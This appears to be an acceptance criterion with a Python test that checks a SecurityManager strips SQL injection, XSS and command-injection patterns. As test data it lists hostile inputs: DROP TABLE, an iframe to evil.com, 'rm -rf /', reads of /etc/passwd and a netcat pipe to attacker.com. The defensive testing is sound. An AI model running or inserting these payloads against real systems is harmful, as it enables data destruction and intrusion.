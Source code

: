 
### AC-006: Input Sanitization (SQL Injection, XSS, Command Injection)

**Given**: 공격자가 악의적인 입력을 전송했을 때
**When**: SecurityMiddleware가 입력을 검증하면
**Then**: SQL Injection, XSS, Command Injection 패턴이 탐지되고 제거되어야 한다

**검증 코드**:
```python
from apps.security.core.security_manager import SecurityManager

security_manager = SecurityManager()

# SQL Injection patterns
sql_injection_inputs = [
    "'; DROP TABLE users--",
    "'; DELETE FROM documents WHERE 1=1--",
    "UNION SELECT * FROM api_keys",
    "OR 1=1",
    "AND 1=1"
]

for malicious_input in sql_injection_inputs:
    sanitized = security_manager._sanitize_sql_injection(malicious_input)
    assert "DROP TABLE" not in sanitized, "SQL injection pattern must be removed"
    assert "DELETE FROM" not in sanitized, "SQL injection pattern must be removed"
    assert "UNION SELECT" not in sanitized, "SQL injection pattern must be removed"

# XSS patterns
xss_inputs = [
    "<script>alert('xss')</script>",
    "javascript:alert('xss')",
    "<img src=x onerror=alert('xss')>",
    "<iframe src='evil.com'></iframe>",
    "onload=alert('xss')"
]

for malicious_input in xss_inputs:
    sanitized = security_manager._sanitize_xss(malicious_input)
    assert "<script>" not in sanitized, "XSS pattern must be removed"
    assert "javascript:" not in sanitized, "XSS pattern must be removed"
    assert "onload=" not in sanitized, "XSS pattern must be removed"
    assert "<iframe>" not in sanitized, "XSS pattern must be removed"

# Command Injection patterns
cmd_injection_inputs = [
    "; rm -rf /",
    "&& cat /etc/passwd",
    "| nc attacker.com 4444",
    "../../etc/passwd",
    "`whoami`",
    "$(whoami)"
]

for malicious_input in cmd_injection_inputs:
    sanitized = security_manager._sanitize_command_injection(malicious_input)
    assert "rm -rf" not in sanitized, "Command injection pattern must be removed"
    assert "cat /etc/passwd" not in sanitized, "Command injection pattern must be removed"
    assert "../" not in sanitized, "Path traversal pattern must be removed"
    assert "`" not in sanitized, "Command substitution pattern must be removed"
```
